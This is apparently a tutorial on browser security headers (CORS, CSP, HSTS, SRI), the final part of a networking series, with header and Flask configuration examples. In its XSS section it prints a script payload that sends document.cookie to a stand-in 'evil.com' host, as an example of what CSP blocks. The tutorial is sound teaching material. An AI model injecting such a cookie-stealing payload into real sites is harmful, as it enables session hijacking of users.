





Browsers are hostile environments—attackers inject scripts, steal cookies, and hijack sessions. Web security standards are your defense.

Browser security threats and their defenses — CORS blocks cross-origin access, CSP prevents XSS, HSTS enforces HTTPS, and SRI verifies script integrity
Series Finale: This is Part 20 of 20 in the Complete Protocols Master series. Congratulations on reaching the final chapter!
Web Security Threats:
1. CROSS-SITE SCRIPTING (XSS)
Attacker injects malicious script
Script runs in victim's browser
Steals cookies, sessions, data
2. CROSS-SITE REQUEST FORGERY (CSRF)
Tricks user into unwanted actions
Uses user's authenticated session
3. CLICKJACKING
Invisible iframe over legitimate UI
User clicks hidden malicious button
4. DATA THEFT
Insecure scripts from CDNs
Man-in-the-middle attacks
5. COOKIE THEFT
Session hijacking
Cross-site cookie access
Security Headers Defense:
┌─────────────────────────────────────┐
│ CSP → Prevents XSS │
│ CORS → Controls cross-origin │
│ HSTS → Forces HTTPS │
│ SRI → Validates scripts │
│ X-Frame → Prevents clickjacking │
└─────────────────────────────────────┘
CORS (Cross-Origin Resource Sharing)
CORS controls which domains can access your API from browser JavaScript. By default, browsers block cross-origin requests (Same-Origin Policy).

CORS preflight flow — the browser sends an OPTIONS request to check allowed origins, methods, and headers before the actual cross-origin API call proceeds
Simple Analogy: CORS is like a bouncer checking IDs. Your server tells the browser "requests from these domains are allowed in."
Same-Origin
Same-Origin Policy
Same-Origin Policy:
Origin = scheme + host + port
https://example.com:443/path
│ │ │
scheme host port
Same Origin:
https://example.com/page1 → https://example.com/page2 ✅
Different Origin:
https://example.com → https://api.example.com ❌ (different host)
https://example.com → http://example.com ❌ (different scheme)
https://example.com → https://example.com:8080 ❌ (different port)
Without CORS:
fetch('https://api.example.com/data')
// ❌ Blocked by browser
With CORS:
Server responds with:
Access-Control-Allow-Origin: https://example.com
// ✅ Browser allows response
# CORS Headers
# Simple request (GET, POST with simple content-type)
Access-Control-Allow-Origin: https://example.com
# Or allow all origins (dangerous!)
Access-Control-Allow-Origin: *
# Preflight request (OPTIONS) for complex requests
Access-Control-Allow-Methods: GET, POST, PUT, DELETE
Access-Control-Allow-Headers: Content-Type, Authorization
Access-Control-Max-Age: 86400 # Cache preflight for 24 hours
# Allow credentials (cookies)
Access-Control-Allow-Credentials: true
# Note: Cannot use * with credentials
# Expose custom headers to JavaScript
Access-Control-Expose-Headers: X-Custom-Header, X-Request-Id
# CORS in Flask
from flask import Flask
from flask_cors import CORS
app = Flask(__name__)
# Basic: Allow all origins (development only!)
CORS(app)
# Production: Specific origins
CORS(app, origins=[
'https://example.com',
'https://app.example.com'
])
# Fine-grained control
CORS(app, resources={
r"/api/*": {
"origins": ["https://example.com"],
"methods": ["GET", "POST", "PUT", "DELETE"],
"allow_headers": ["Content-Type", "Authorization"],
"supports_credentials": True,
"max_age": 3600
}
})
@app.route('/api/data')
def get_data():
return {"message": "CORS-enabled response"}
# Manual CORS headers
@app.after_request
def add_cors_headers(response):
origin = request.headers.get('Origin')
allowed_origins = ['https://example.com', 'https://app.example.com']
if origin in allowed_origins:
response.headers['Access-Control-Allow-Origin'] = origin
response.headers['Access-Control-Allow-Credentials'] = 'true'
return response
CSP tells browsers what content sources are allowed. It's the strongest defense against XSS attacks.

CSP directives restrict content sources per type — script-src, style-src, img-src, and connect-src each whitelist trusted origins while blocking everything else
XSS
XSS Attack Example
Without CSP (vulnerable):
User submits comment:
<script>
fetch('https://evil.com/steal?cookie=' + document.cookie)
</script>
Browser executes it!
Attacker steals session cookie.
With CSP:
Content-Security-Policy: script-src 'self'
Browser refuses to execute inline script!
Attack blocked.
# CSP Directives
# Where scripts can load from
script-src 'self' https://cdn.example.com;
# Where styles can load from
style-src 'self' 'unsafe-inline';
# Where images can load from
img-src 'self' data: https:;
# Where fonts can load from
font-src 'self' https://fonts.gstatic.com;
# Where fetch/XHR can connect
connect-src 'self' https://api.example.com;
# Where frames can load from
frame-src 'self' https://youtube.com;
# Default for unspecified directives
default-src 'self';
# Report violations (don't block)
Content-Security-Policy-Report-Only: default-src 'self';
report-uri /csp-report;
# Full CSP Example
Content-Security-Policy:
default-src 'self';
script-src 'self' https://cdn.jsdelivr.net 'nonce-abc123';
style-src 'self' https://fonts.googleapis.com 'unsafe-inline';
img-src 'self' data: https:;
font-src 'self' https://fonts.gstatic.com;
connect-src 'self' https://api.example.com;
frame-ancestors 'none';
base-uri 'self';
form-action 'self';
upgrade-insecure-requests;
report-uri /csp-violation-report;
# In HTML (using nonce):
<script nonce="abc123">
// This script runs because nonce matches
</script>
<script>
// Blocked! No nonce
</script>
HSTS forces browsers to use HTTPS only. Prevents SSL stripping attacks and accidental HTTP connections.

HSTS prevents SSL stripping attacks — without HSTS the browser sends an initial HTTP request vulnerable to interception, with HSTS it connects via HTTPS directly
Attack
SSL Stripping Attack
Without HSTS:
User types: example.com
Browser requests: http://example.com
Server redirects: https://example.com
Man-in-the-middle attack:
User ─────HTTP────> Attacker ─────HTTPS────> Server
↑
Intercepts credentials!
With HSTS:
Browser knows to use HTTPS directly
Never sends HTTP request
Attack impossible
# HSTS Header
# Basic (1 year)
Strict-Transport-Security: max-age=31536000
# Include subdomains
Strict-Transport-Security: max-age=31536000; includeSubDomains
# Preload list (permanent HTTPS)
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
# Submit to preload list: https://hstspreload.org/
# Important: max-age requirements
# • max-age >= 1 year for preload
# • includeSubDomains required for preload
# • All subdomains must support HTTPS
SRI ensures external scripts/styles haven't been tampered with. Browser verifies hash before executing.

SRI verification flow — the browser computes the SHA hash of a downloaded script and compares it to the integrity attribute, blocking execution on mismatch
Attack
CDN Compromise Attack
Without SRI:
<script src="https://cdn.example.com/lib.js"></script>
If CDN is compromised:
Attacker modifies lib.js
All sites using it are compromised!
With SRI:
<script
src="https://cdn.example.com/lib.js"
integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/ux..."
crossorigin="anonymous">
</script>
Browser calculates hash of downloaded file
Compares with integrity attribute
Mismatch → Script blocked!
# Generate SRI Hash
# Using OpenSSL
cat bootstrap.min.js | openssl dgst -sha384 -binary | openssl base64 -A
# Using shasum
shasum -b -a 384 bootstrap.min.js | cut -d' ' -f1 | xxd -r -p | base64
# Using online generator
# https://www.srihash.org/
# Output format
sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxANV7...
# SRI in HTML
<!-- Bootstrap CSS with SRI -->
<link
href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css"
rel="stylesheet"
integrity="sha384-9ndCyUaIbzAi2FUVXJi0CjmCapSmO7gy/lpif..."
crossorigin="anonymous">
<!-- jQuery with SRI -->
<script
src="https://code.jquery.com/jquery-3.7.1.min.js"
integrity="sha384-1H217gwSVyLSIfaLxHbE7dRb3v4mYCKbpQvzx0cegeju..."
crossorigin="anonymous">
</script>
<!-- crossorigin="anonymous" required for SRI -->
<!-- Server must send CORS headers -->
# Test your security headers
# Using curl
curl -I https://example.com | grep -i "security\|policy\|frame\|content"
# Using securityheaders.com
# https://securityheaders.com/?q=example.com
# Mozilla Observatory
# https://observatory.mozilla.org/
# Expected Grade: A+ with all headers
Series Complete!
Review
Series Journey Recap
Complete Protocols Master - 20 Parts:
Physical & Data Link:
├── Part 1: Networking Fundamentals
├── Part 2: Physical Layer & Cables
└── Part 3: Data Link & MAC Addresses
Network Layer:
├── Part 4: IP Addressing & Subnetting
├── Part 5: Routing Protocols
└── Part 6: ICMP & Network Diagnostics
Transport Layer:
├── Part 7: TCP Deep Dive
├── Part 8: UDP & Real-Time
└── Part 9: Socket Programming
Application Protocols:
├── Part 10: DNS
├── Part 11: HTTP/HTTPS
├── Part 12: Email (SMTP, IMAP)
└── Part 13: File Transfer (FTP, SFTP)
Security & Advanced:
├── Part 14: VPN & Tunneling
├── Part 15: Authentication
├── Part 16: Network Management
├── Part 17: Security Protocols
├── Part 18: Cloud Protocols
├── Part 19: Emerging (QUIC/HTTP/3)
└── Part 20: Web Security Standards ← You Are Here!
Part 20 Key Takeaways:
CORS: Control cross-origin API access
CSP: Prevent XSS with content restrictions
HSTS: Force HTTPS, prevent SSL stripping
SRI: Verify CDN script integrity
Security Headers: Defense in depth
Quiz
Final Quiz
CORS preflight method? (OPTIONS)
CSP directive for scripts? (script-src)
HSTS preload requirement? (includeSubDomains, 1 year max-age)